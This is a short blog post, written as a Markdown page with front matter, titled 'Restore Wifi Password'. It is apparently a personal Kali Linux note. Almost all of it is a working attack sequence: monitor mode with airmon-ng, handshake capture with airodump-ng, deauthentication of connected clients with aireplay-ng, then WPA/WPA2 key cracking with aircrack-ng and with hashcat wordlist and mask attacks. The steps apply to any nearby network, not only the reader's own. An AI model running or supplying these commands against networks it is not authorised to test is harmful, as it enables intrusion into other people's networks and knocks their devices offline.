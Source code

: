 ```yaml
---
title: "Restore Wifi Password"
date: 2020-12-25T09:21:04+01:00
year: "2020"
month: "2020/12"
# categories:
#   - Posts
tags:
  - linux
  - kali
  - security
slug: restore-wifi-password
draft: false
---
```


## STEP 1 - Get Handshake

Check if your wireless card does support monitor mode.  
If you do not see an interface listed then your wireless card does not support monitor mode.

```
airmon-ng
```

---

Put your network device into monitor mode

```
# airmon-ng start wlan0
```

Listen for all nearby beacon frames to get target BSSID and channel

```
# airodump-ng wlan0mon
```

Start listening for the handshake

```
# airodump-ng --channel 6 —-bssid 9C:5C:8E:C9:AB:C0 --write capture/ wlan0mon
```

Optionally deauth a connected client to force a handshake  
`-a` = AP, `-c` = Client

```
# aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 wlan0mon
```

## STEP 2 - Crack password with aircrack-ng / hashcat

Convert .cap to .hccapx

```
# aircrack-ng -j OUT.hccapx IN.cap
```

#### aircrack-ng

```
# aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w wordlist.txt capture/-01.cap
```

#### hashcat (wordlist)

```
# hashcat -m 2500 capture.hccapx wordlist.txt
```

#### hashcat (brutal-force)

```
# hashcat -m 2500 capture.hccapx -a 3
```

#### hashcat (brutal-force if you know the length of password)

The following command is and example of how your scenario would work with a password of length = 8.

```
# hashcat -m 2500 -a 3 capture.hccapx ?d?d?d?d?d?d?d?d
```

The `-a 3` denotes the "mask attack" (which is bruteforce but more optimized).

The `-m 2500` denotes the type of password used in WPA/WPA2.

The `capture.hccapx` is the .hccapx file you already captured.

The `?d?d?d?d?d?d?d?d` denotes a string composed of 8 digits.

If you want to specify other charsets, these are the following supported by hashcat:

```
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?h = 0123456789abcdef
?H = 0123456789ABCDEF
?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
?a = ?l?u?d?s
?b = 0x00 – 0xff
```
